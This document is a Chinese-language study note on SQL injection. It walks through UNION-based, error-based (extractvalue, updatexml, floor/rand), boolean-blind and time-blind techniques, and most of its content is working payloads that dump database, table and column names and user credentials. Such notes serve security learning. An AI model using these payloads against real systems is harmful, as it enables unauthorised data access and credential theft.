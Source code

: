```yaml
---
title: sql注入
date: 2021-12-28 14:15:15
tags: 
- sql
- 注入
---
```


## sql 注入

### 一般过程

1. 找到网站注入点
2. 判断注入点是字符型还是数字型注入（使用减法，使用and 1=1）
3. 判断闭合方式（fuzz，仅限于字符型注入）
4. 判断前一条sql查询列数（group by 、 order by容易waf检测）
5. 查询回显位（仅限union注入）
    * `?id=-1 union select 1,2,3`
6. 查询当前数据库库名
7. 查询当前数据库所有表名
    * `?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()`
8. 查询当前数据所有列名 users
    * `?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name = 'users'`
9. 查询当前数据表所有列项 id,username,password
    * `?id=-1 union select 1,2,group_concat(id,'~',username) from users`

### 报错注入
原理：优先执行括号内的内容,报错注入最多一次只能显示32个字符
1. extractvalue报错注入

    * 数据库读取XML文件，extractvalue(书名，路径)，路径格式必须是`/`，否则报错
    * concat(0x7e,(select database()))组合参数

    * `?id=-1' and 1=extractvalue(1,concat(0x7e,(select database()))) --+`
    * substring('test',x,y)，从第x个字符开始，显示y个字符 
    * 解决只能返回32个字符串问题
    `?id=-1' and 1=extractvalue(1,concat(0x7e,(select substring(group_concat(username,'~',password),25,30)))) --+ /*从第25个字符往后再显示30个字符*/` 

2. updatexml报错注入
    * updatexml()修改文档，三个参数，第二个参数为路径
    * `id=1' and 1=updatexml(1,concat(0x7e,(select databse())),3) --+`
    * `?id=1 union select 1,2,updatexml(1,concat(0x7e,(select database())),3) --+`


`SELECT concat_ws('-',2.3);`
`SELECT concat_ws('-',database(),floor(rand()*2));`
`select count(*),concat_ws('-',(select database()),floor(rand(0)*2)) as cc from information_schema.tables group by cc;`




3. 布尔盲注
    *   页面不会报错，页面有两种状态，一种真值，一种假值
    `?id=1' and ascii(substring((select database()),2,1))=101 --+`


4. 时间盲注

    `select if(1>2,2,sleep(2));`

